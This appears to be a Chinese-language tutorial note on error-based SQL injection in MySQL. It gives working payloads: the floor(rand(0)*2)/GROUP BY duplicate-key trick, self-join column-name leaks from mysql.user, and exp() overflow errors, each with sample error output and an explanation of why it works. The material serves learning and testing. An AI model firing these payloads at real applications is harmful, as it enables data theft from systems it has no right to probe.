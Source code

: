 # sql inject 回显报错

## concat(*) + rand + group by

```
SELECT+1+FROM+(select+count(*),concat(floor(rand(0)*2),(select+concat(0x5f,database(),0x5f,user(),0x5f,version())))a+from+information_schema.tables+group+by+a)b--
```

#### 分析

本质是group by语句的报错。group by语句报错的原因是floor(rand(0)*2)的不确定性，即可能为0也可能为1,(group by key的原理是循环读取数据的每一行，将结果保存于临时表中。读取每一行的key时，如果key存在于临时表中，则不在临时表中则更新临时表中的数据；如果该key不存在于临时表中，则在临时表中插入key所在行的数据。group by floor(random(0)*2)出错的原因是key是个随机数，检测临时表中key是否存在时计算了一下floor(random(0)*2)可能为0，如果此时临时表只有key为1的行不存在key为0的行，那么数据库要将该条记录插入临时表，由于是随机数，插时又要计算一下随机值，此时floor(random(0)*2)结果可能为1，就会导致插入时冲突而报错。即检测时和插入时两次计算了随机数的值

* 主要是rand和group+by的冲突。获取的值不确定又可重复,同时又要来操作结果

> RAND() in a WHERE clause is re-evaluated every time the WHERE is executed.You cannot use a column with RAND() values in an ORDER BY clause, because ORDER BY would evaluate the column multiple times.             
说的是不可以作为ORDER BY的条件字段, 同理也不可以为group by的.

故：a为：concat(floor(rand(0)*2),(select+concat(0x5f,database(),0x5f,user(),0x5f,version())))

有rand参与，后面又出现group+by+a语句，故会爆出
```
Duplicate entry 'XXXXXXXXXX' for key 'group_key'
```
之类的错误。而这里的“'XXXXXXXXXX”就是 **0x5f,database(),0x5f,user(),0x5f,version()**的内容，这样子就可以获取到数据库名，用户名和数据库版本。

* 1.floor是取整数，如果没有这个，那么RAND(0)*2将是一个很长的小数，不会是 会重复的数。

* 2.rand(0)*2是取0到2的随机数，如果去掉或换成1，加上floor取整结果都是0，不会是不确定的数。当然,使用 *3，*4, ... 都是可以的

* 3.如果没有重新刷一次结果（例子中用的是count(*)来统计结果）,单纯以rand制造会重复的不确定数也是没有效果的，如去掉count(*),不会报错。

正常的：
```
SELECT id FROM tuser WHERE id=1 UNION SELECT 1 FROM (SELECT CONCAT(FLOOR(RAND(0)*2),(SELECT CONCAT(0x5f,DATABASE(),0x5f,USER(),0x5f,VERSION())))a FROM information_schema.tables GROUP BY a)b--
```

所以使用left(rand(),3)之类的也是可以的（会产生会重复不确定的数）如：

报错的：
```
SELECT id FROM tuser WHERE id=1 UNION SELECT 1 FROM (SELECT COUNT(*),CONCAT(LEFT(RAND(),3),(SELECT CONCAT(0x5f,DATABASE(),0x5f,USER(),0x5f,VERSION())))a FROM information_schema.tables GROUP BY a)b--
```


## join报错注入

#### 原理

**利用表自己join自己。来达到列名相同来爆列名**

以爆mysql.user表为例爆字段名为例

* 1.爆第一个列名

```
mysql> select * from(select * from mysql.user a join mysql.user b)c;
ERROR 1060 (42S21): Duplicate column name 'Host'
```

* 2.爆第二个列名(使用using)

```
mysql> select * from(select * from mysql.user a join mysql.user b using(Host))c; 
ERROR 1060 (42S21): Duplicate column name 'User'
```

* 3.爆第三列名(还是使用using，参数是前两个列的列名)

```
mysql> select * from(select * from mysql.user a join mysql.user b using(Host,User))c;
ERROR 1060 (42S21): Duplicate column name 'Password'
```

* ...

* 爆完列名后，使用完整的列名，就是用户数据了


## 数字溢出

#### exp


* select ~(select version());
```
mysql> select ~(select version());
+----------------------+
| ~(select version())  |
+----------------------+
| 18446744073709551610 |
+----------------------+
```

* select exp(~(select * from(select user())x));
```
mysql> select exp(~(select * from(select user())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'
```
